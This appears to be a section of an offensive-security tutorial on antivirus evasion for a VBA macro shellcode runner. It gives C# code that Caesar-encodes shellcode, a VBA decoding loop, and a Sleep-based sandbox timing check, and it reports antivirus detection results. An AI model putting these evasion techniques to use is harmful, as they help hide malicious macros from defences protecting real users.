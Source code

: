 ## We do this again
We'll reuse the previous C# project to encrypt the shellcode and then copy the encrypted result into the VBA macro.
For a VBA format, we'll use decimal values instead of hexadecimal.
We'll also split the encrypted shellcode on multiple lines in order to handle the maximum size issues of literal strings.
The edited code from previous ceaser cypher encoder will look as follows:
```C#
   byte[] encoded = new byte[buf.Length];
   for(int i = 0; i < buf.Length; i++)
   {
     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
   }
 
  uint counter = 0;
 
   StringBuilder hex = new StringBuilder(encoded.Length * 2);
  foreach(byte b in encoded)
  {
    hex.AppendFormat("{0:D}, ", b);
    counter++;
    if(counter % 50 == 0)
    {
        hex.AppendFormat("_{0}", Environment.NewLine);
    }
  }
  Console.WriteLine("The payload is: " + hex.ToString());
```

The decryption key in the VBA itself is rather easy:
```VBA
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```

We also add a time lapse for behavioral detection:
```VBA
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Dim t1 As Date
Dim t2 As Date
Dim time As Long

t1 = Now()
Sleep (2000)
t2 = Now()
time = DateDiff("s", t1, t2)

If time < 2 Then
    Exit Function
End If
```

Even though we have encrypted our shellcode, and even made use of a time lapse function, our detection stays unchanged at 7/26 anti-virus vendors.

